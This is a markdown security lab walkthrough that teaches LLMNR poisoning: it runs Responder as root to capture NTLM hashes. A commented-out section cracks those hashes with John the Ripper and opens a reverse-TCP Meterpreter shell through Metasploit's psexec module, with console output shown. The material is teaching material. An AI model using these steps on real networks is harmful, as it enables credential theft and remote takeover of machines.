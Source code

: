 # Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a **weak** password.

Specifically, we are looking to take advantage of **"LLMNR"**.  

We will need to load our terminal and start responder.

Let's get started by opening a **Kali** terminal.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Next, let’s become root:

```sudo su -```

Before we start, we need to remove the existing **Responder** database. Do so by running the following:

```rm /usr/share/responder/Responder.db```

Now let’s start **Responder**:

```responder -I eth0```

You should see this:

![](attachments/responderrunning.png)

Let's open Windows File Explorer and put in the string `\\Noooo` into the address bar at the top.

![](attachments/OpeningFileExplorer.png)

![](attachments/noooaccessbar.png)

Switch back to your **Kali** terminal window.

After a few moments, you should see some captured data showing up.  Please note there may be an error.  That is OK.

![](attachments/captureddata.png)

<!--

THIS SECTION IS BEING REMOVED FOR THE TIME BEING PER JOHN

Next we need to kill Responder with `Ctrl + c`.  This will return the command prompt. 

Now, we need to change to the logs directory.

```cd /opt/Responder/logs```

Once there, we will need to start John The Ripper"

```/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt```
Remember!  Your IP will be different!!!!


If you captured a NTLMv1 hash you can crack it with the following command:

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlm ./HTTP-NTLMv1-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

Notice the v2 is dropped from the --format.

![](attachments/Clipboard_2020-06-23-14-24-11.png)

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

![](attachments/SMB_bat.png)

Next, let’s open a new Kali instance. The easiest way to do this is to click the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

```
adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ <b>sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# <b>msfconsole -q</b>
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 ><b> use exploit/windows/smb/psexec</b>
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set PAYLOAD windows/meterpreter/reverse_tcp</b>
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set RHOSTS 172.18.112.1 ###REMEMBER!!! YOUR WINDOWS IP WILL BE DIFFERENT</b>
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) ><b> set SMBUSER adhd</b>
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) ><b> set SMBPASS adhd</b>
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) ><b> exploit</b>

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
```
Now, you can see just how bad LLMNR is!!!!
*/
-->

